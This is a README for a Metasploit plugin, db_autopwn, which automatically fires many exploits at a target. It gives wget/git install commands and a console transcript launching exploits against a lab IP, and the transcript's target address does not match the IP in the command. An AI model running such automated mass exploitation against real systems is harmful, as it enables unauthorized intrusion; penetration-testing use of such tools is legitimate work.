 # metasploit-db_autopwn

metasploit plugin for easy exploit & vulnerability attack.br>
But, the db_autopwn command is removed from official distribution.<br>

## Install
move dB_autopwn.rb file into metasploit plugin directory after clone this repo<br>

    git clone https://github.com/hahwul/metasploit-db_autopwn<br>


<br>
or <br>
<br>
download db_autopwn.rb file in metasploit plugin directory

    wget https://raw.githubusercontent.com/hahwul/metasploit-db_autopwn/master/db_autopwn.rb<br>

## Usage

    #> msfconsole
    MSF > load db_autopwn
    [*] Successfully loaded plugin: db_autopwn
    
    MSF > db_autopwn -p -R great -e -q 192.168.56.101 
    [-] The db_autopwn command is DEPRECATED
    [-] See http://r-7.co/xY65Zr instead
    [*] (1/1301 [0 sessions]): Launching exploit/bsdi/softcart/mercantec_softcart against 192.168.56.44:80...
    [*] (2/1301 [0 sessions]): Launching exploit/freebsd/http/watchguard_cmd_exec against 192.168.56.44:80...
    [*] (3/1301 [0 sessions]): Launching exploit/linux/antivirus/escan_password_exec against 192.168.56.44:80...
    [*] (4/1301 [0 sessions]): Launching exploit/linux/http/accellion_fta_getstatus_oauth against 192.168.56.44:80...
    [*] (5/1301 [0 sessions]): Launching exploit/linux/http/advantech_switch_bash_env_exec against 192.168.56.44:80...



